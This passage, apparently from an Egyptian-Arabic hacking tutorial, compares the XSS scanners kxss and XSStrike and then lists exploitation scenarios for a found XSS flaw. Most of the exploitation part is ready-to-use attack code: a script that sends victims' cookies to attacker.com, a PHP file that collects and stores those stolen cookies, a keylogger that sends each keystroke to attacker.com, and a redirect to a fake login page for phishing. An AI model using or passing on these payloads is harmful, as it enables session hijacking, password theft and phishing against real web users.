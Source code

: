 **إمتى تستخدم كل واحدة؟**
- استخدم **kxss** لو عايز تفحص سريع لروابط كتير أو باراميترز في GET.
- استخدم **XSStrike** لو عايز تحليل عميق أو فحص POST أو Blind XSS.

**خلاصة بالعامية**:
kxss زي السيارة الرياضية، سريعة وبتفحص الروابط بسرعة صاروخية، بس مش بتعمل تحليل عميق زي XSStrike. لو عايز تفحص كمية كبيرة من الروابط، kxss هي اللي تلزمك. أما XSStrike فهي الدكتور اللي بيفحص كل حتة بعمق وبتلاقي ثغرات معقدة.

---

### **5. سيناريوهات الاستغلال (مشتركة بين kxss وXSStrike)**
لأن kxss بتكتشف XSS زي XSStrike، السيناريوهات دي بتشتغل مع الاتنين. لو لقيت ثغرة XSS بـkxss، تقدر تستغلها كده:

1. **سرقة السيشن (Session Hijacking)**:
   - **الهدف**: سرقة الكوكيز عشان تدخل مكان اليوزر.
   - **البايلود**:
     ```html
     <script>document.location='attacker.com/steal.php?c='+document.cookie;</script>
     ```
   - **الإعداد**:
     اعمل ملف `steal.php`:
     ```php
     <?php
     header('Location: google.com');
     $cookies = $_GET['c'];
     file_put_contents('cookies.txt', $cookies . "\n", FILE_APPEND);
     ?>
     ```
   - **التأثير**: دخول على حساب اليوزر.

2. **تسجيل الكيبورد (Keylogging)**:
   - **الهدف**: تسجيل ضغطات الكيبورد (زي الباسورد).
   - **البايلود**:
     ```html
     <script>
     document.onkeypress = function(e) {
         fetch('attacker.com/log.php?key=' + e.key);
     };
     </script>
     ```
   - **التأثير**: سرقة بيانات زي الباسورد.

3. **فيشينج (Phishing)**:
   - **الهدف**: خداع اليوزر عشان يكتب بياناته.
   - **البايلود**:
     ```html
     <script>
     window.location = 'attacker.com/fake-login.html';
     </script>
     ```
   - **الإعداد**: اعمل صفحة لوجن مزيفة.
   - **التأثير**: سرقة بيانات الدخول.
